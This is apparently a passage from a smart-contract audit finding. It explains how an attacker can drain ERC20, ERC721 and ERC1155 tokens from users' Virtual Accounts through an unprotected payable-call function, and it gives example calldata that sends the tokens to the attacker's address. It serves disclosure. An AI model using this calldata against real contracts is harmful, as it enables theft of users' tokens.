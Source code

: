 ```solidity
103:
104:             if (!success) revert CallFailed();
105:
106:             unchecked {
107:                 ++i;
108:             }
109:         }
110:
111:         // Finally, make sure the msg.value = SUM(call[0...i].value)
112:         if (msg.value != valAccumulator) revert CallFailed();
113:     }
```

2. In the struct PayableCall, we can observe `address target`, `bytes calldata` and `uint256 value` members. Here are the values for each member in the struct for each type of token **(Note: msg.value field is 0 in all)**:

a. **ERC20 tokens (using [USDC contract on Arbitrum chain](https://arbiscan.io/token/0xaf88d065e77c8cc2239327c5edb3a432268e5831#writeProxyContract) as example):**
```
address target = 0xaf88d065e77c8cC2239327C5EDb3A432268e5831
bytes callData = abi.encodeWithSignature("transfer(address,uint256)", <Attacker's address>, <USDC balance of Virtual Account>);
uint256 value = 0 (msg.value is 0)
```

b. **ERC721 tokens (using [Arbitrum Odyssey NFT contract on Arbitrum chain](https://arbiscan.io/token/0xfAe39eC09730CA0F14262A636D2d7C5539353752#writeContract) as example):**
```
address target = 0xfAe39eC09730CA0F14262A636D2d7C5539353752
bytes callData = abi.encodeWithSignature("safeTransferFrom(address,address,uint256)", <Virtual Account address>, <Attacker's address>, <ERC721 tokenId owned by Virtual Account>);
uint256 value = 0 (msg.value is 0)
```

c. **ERC1155 tokens (using [Top ERC1155 token address on Arbitrum chain](https://arbiscan.io/token/0xf3d00a2559d84de7ac093443bcaada5f4ee4165c#writeProxyContract) as example):**

**Note: Although the above ERC1155 contract address is verified and provided as the most transacted by etherscan, it is also unnamed so do not interact with it. It's only used here for example purposes.**

**Calldata below can also use the safeBatchTransferFrom function in case multiple ERC1155 tokens are being drained**
```
address target = 0xF3d00A2559d84De7aC093443bcaAdA5f4eE4165C
bytes callData = abi.encodeWithSignature("safeTransferFrom(address,address,uint256,uint256,bytes)", <Virtual Account address>, <Attacker's address>, <ERC1155 tokenId owned by Virtual Account>, <Number of ERC1155 tokens to transfer>, <empty data field>);
uint256 value = 0 (msg.value is 0)
```


### Attacker's Contract
**The attacker's contract below is a representation of how the attacker can steal tokens from user's Virtual Account. The data in the functions makes use of the examples I've provided above.**
